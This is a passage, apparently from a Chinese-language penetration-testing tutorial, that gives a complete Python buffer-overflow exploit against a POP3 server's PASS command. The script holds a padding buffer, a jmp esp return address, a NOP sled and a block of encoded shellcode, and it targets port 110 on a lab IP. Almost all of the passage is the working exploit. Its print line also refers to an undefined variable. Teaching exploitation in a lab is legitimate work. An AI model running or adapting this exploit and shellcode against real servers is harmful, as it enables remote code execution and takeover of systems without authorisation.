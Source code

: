 生成前面的有效负载后，让我们创建一个 Python 脚本，该脚本将导致该漏洞。我们将通过`mona`脚本使用之前发现的`jmp esp`位置。还应注意，由于对有效载荷进行了编码，因此将使用几个字节进行解码，并且将使用几个字节进行填充：

```
#!/usr/bin/python    
import socket        
buffer=["A"]    
counter=100
buf =  ""
buf += "\xd9\xc8\xbd\xad\x9f\x5d\x89\xd9\x74\x24\xf4\x5a\x33"
buf += "\xc9\xb1\x52\x31\x6a\x17\x03\x6a\x17\x83\x6f\x9b\xbf"
buf += "\x7c\x93\x4c\xbd\x7f\x6b\x8d\xa2\xf6\x8e\xbc\xe2\x6d"
buf += "\xdb\xef\xd2\xe6\x89\x03\x98\xab\x39\x97\xec\x63\x4e"
buf += "\x10\x5a\x52\x61\xa1\xf7\xa6\xe0\x21\x0a\xfb\xc2\x18"
buf += "\xc5\x0e\x03\x5c\x38\xe2\x51\x35\x36\x51\x45\x32\x02"
buf += "\x6a\xee\x08\x82\xea\x13\xd8\xa5\xdb\x82\x52\xfc\xfb"
buf += "\x25\xb6\x74\xb2\x3d\xdb\xb1\x0c\xb6\x2f\x4d\x8f\x1e"
buf += "\x7e\xae\x3c\x5f\x4e\x5d\x3c\x98\x69\xbe\x4b\xd0\x89"
buf += "\x43\x4c\x27\xf3\x9f\xd9\xb3\x53\x6b\x79\x1f\x65\xb8"
buf += "\x1c\xd4\x69\x75\x6a\xb2\x6d\x88\xbf\xc9\x8a\x01\x3e"
buf += "\x1d\x1b\x51\x65\xb9\x47\x01\x04\x98\x2d\xe4\x39\xfa"
buf += "\x8d\x59\x9c\x71\x23\x8d\xad\xd8\x2c\x62\x9c\xe2\xac"
buf += "\xec\x97\x91\x9e\xb3\x03\x3d\x93\x3c\x8a\xba\xd4\x16"
buf += "\x6a\x54\x2b\x99\x8b\x7d\xe8\xcd\xdb\x15\xd9\x6d\xb0"
buf += "\xe5\xe6\xbb\x17\xb5\x48\x14\xd8\x65\x29\xc4\xb0\x6f"
buf += "\xa6\x3b\xa0\x90\x6c\x54\x4b\x6b\xe7\x9b\x24\x89\x67"
buf += "\x73\x37\x6d\x99\xd8\xbe\x8b\xf3\xf0\x96\x04\x6c\x68"
buf += "\xb3\xde\x0d\x75\x69\x9b\x0e\xfd\x9e\x5c\xc0\xf6\xeb"
buf += "\x4e\xb5\xf6\xa1\x2c\x10\x08\x1c\x58\xfe\x9b\xfb\x98"
buf += "\x89\x87\x53\xcf\xde\x76\xaa\x85\xf2\x21\x04\xbb\x0e"
buf += "\xb7\x6f\x7f\xd5\x04\x71\x7e\x98\x31\x55\x90\x64\xb9"
buf += "\xd1\xc4\x38\xec\x8f\xb2\xfe\x46\x7e\x6c\xa9\x35\x28"
buf += "\xf8\x2c\x76\xeb\x7e\x31\x53\x9d\x9e\x80\x0a\xd8\xa1"
buf += "\x2d\xdb\xec\xda\x53\x7b\x12\x31\xd0\x8b\x59\x1b\x71"
buf += "\x04\x04\xce\xc3\x49\xb7\x25\x07\x74\x34\xcf\xf8\x83"
buf += "\x24\xba\xfd\xc8\xe2\x57\x8c\x41\x87\x57\x23\x61\x82"
buffer='A'*2606 + '\x8f\x35\x4a\x5f' + "\x90"*8 +buf

if 1:    
   print"Fuzzing PASS with %s bytes" %    len(string)    
   s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)    
   connect=s.connect(('192.168.250.158',110))    
   data=s.recv(1024)    
   s.send('USER root \r\n')        
   data=s.recv(1024)
   print str(data)    
   s.send('PASS    ' + buffer + '\r\n')    
   #data=s.recv(1024)
   #print str(data)    
   print "done"
   #s.send('QUIT\r\n')        
   s.close()    

```
